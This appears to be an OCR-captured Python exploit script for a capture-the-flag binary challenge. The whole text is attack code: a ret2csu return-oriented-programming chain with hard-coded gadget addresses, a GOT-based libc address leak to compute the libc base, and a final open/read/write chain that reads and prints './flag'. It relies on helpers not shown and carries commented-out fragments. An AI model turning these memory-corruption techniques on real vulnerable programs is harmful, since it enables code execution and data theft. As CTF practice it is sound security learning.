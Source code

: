 ```plain
bss=0x601200
csu_end_addr=0x40095A
csu_front_addr=0x400940
rdi = 0x400963
rsi = 0x400961 
ret = 0x400696 
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = ""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
    payload += p64(last)    
    return payload



pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0, magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)#+p64(0x400788)+p64(elf.bss()+0x300)#+csu(0,1,0x601020,0x40,elf.got['read'],1,)

sl(pl)

#sl('a')
s('./flag\x00')
duan()
pl2 = '\x00'*0x48+csu(0,1,0x601020,0x50,elf.got['read'],1,0x4008DC)
s(pl2)




read_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(read_addr))

libc_base = read_addr - libc.sym["read"]
print(hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
openn = libc_base + libc.symbols['open']
read = libc_base + libc.symbols['read']
write = libc_base + libc.symbols['write']
rdx = libc_base+0x1b96
rsi = libc_base+0x023a6a


pl3 = '\x00'*0x48+p64(rdi)+p64(elf.bss()+0x100)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(openn)+p64(rdi)+p64(3)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(read)+p64(rdi)+p64(1)+p64(rsi)+p64(elf.bss()+0x400)+p64(rdx)+p64(0x50)+p64(write)#+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()+p64()



sl(pl3)

```